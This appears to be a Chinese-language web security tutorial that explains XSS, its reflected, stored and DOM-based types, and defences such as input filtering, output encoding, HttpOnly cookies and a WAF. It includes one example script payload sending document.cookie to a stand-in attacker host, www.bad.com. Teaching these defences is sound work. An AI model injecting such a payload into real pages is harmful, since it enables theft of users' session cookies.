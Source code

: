 # Web安全

Web 安全是一个十分重要的话题。基于 Web 环境的互联网应用越来越广泛，其安全问题也日益凸显，代码中的细小漏洞随时可能被攻击者利用，导致用户的隐私信息泄露、财产损失。本章节介绍一些常见的 Web 安全常识，帮助您构建更加安全的 Web 应用。

## 常见的安全漏洞

Web 常见的安全漏洞种类很多，如 `XSS`, `CSRF`, `SQL注入`,`Cross IFrame Trick`, `clickJacking`,  `文件上传` 等等。下面列举两种客户端常见的安全漏洞。

### XSS

XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。

举一个简单的例子

在 `a.com` 的搜索输入框中输入如下内容，并提交请求
```
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
如果前端没有进行过滤，浏览器地址可能变为：
```
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。


XSS 攻击类型一般分为三种：

- 反射型 XSS

反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。

- 储存型 XSS

存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。

- DOM Based XSS

基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。

#### 防范 XSS

对于 XSS 攻击，我们可以做如下防范：

1. 输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。

2. 输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。

3. HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。

4. WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。
